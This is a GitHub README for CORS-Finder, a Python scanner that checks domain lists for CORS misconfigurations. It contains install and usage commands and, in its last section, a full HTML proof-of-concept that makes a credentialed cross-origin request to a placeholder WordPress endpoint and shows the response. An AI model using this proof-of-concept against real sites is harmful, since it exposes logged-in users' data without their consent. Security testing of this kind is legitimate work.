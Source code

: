 # CORS-Finder
## This tools is developed for identifying the vulnerable cors domain

![alt text](https://raw.githubusercontent.com/hariharan005/CORS/main/banner/Screenshot%20from%202023-07-01%2015-15-12.png)

### How to install CORS-Finder:
```
git clone https://github.com/hariharan005/CORS.git     
ls    
cd CORS
sudo pip3 install -r requirements.txt    
python3 cors.py
```
### Python Version:
* Python 3 (3.x.x) latest version

### How to Use CORS-Finder:

```
For scanning:
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py                           
For scanning with output:  
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py | tee -a <output.txt>
```

### When its vulnerable:
If the header returns the 
       Access-Control-Allow-Origin: https://vulnerable.com/
       Access-Control-Allow-Credentials: true
       its vulnerable

Note: Not all the time its seems vulnerable, you have to check with cors payload and in the authenticated manner also. Try to exploit and this tool is only for indentifying the vulnerable domain

Note: In this tool i used sample domain file but you have to choose your own url file which you recon using some other recon tool.


### Exploitation examples:

Here is the Example code for exploiting the CORS misconfiguration:

```
<!DOCTYPE html>
<!--[if lt IE 7]>      <html class="no-js lt-ie9 lt-ie8 lt-ie7"> <![endif]-->
<!--[if IE 7]>         <html class="no-js lt-ie9 lt-ie8"> <![endif]-->
<!--[if IE 8]>         <html class="no-js lt-ie9"> <![endif]-->
<!--[if gt IE 8]>      <html class="no-js"> <![endif]-->
<html>
    <title>Cors POC</title>
    <style>
        body{
            background-color: white;
            justify-content: center;
        }
        button{
            justify-content: center;
            align-items: center;
            color: white;
            border-radius: 8px;
            font-size: 18px;
            background-color: #6437A0;
            position: relative;
            width: 10%;
            height: 50px;
            display: grid;
        }
    </style>
     <body>
         <h1>CORS PoC by @crypto_grapper_</h1><span><h2>Hariharan.C</h2></span>
         <div id="demo">
                <button type="button" onclick="cors()" >Wp-json Exploit</button>
            </div>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);
             xhr.withCredentials = true;
             xhr.send();
             }
             setTimeout(() => {
                document.location.reload("#");
             }, 5000);
         </script>
     </body>
 </html>
```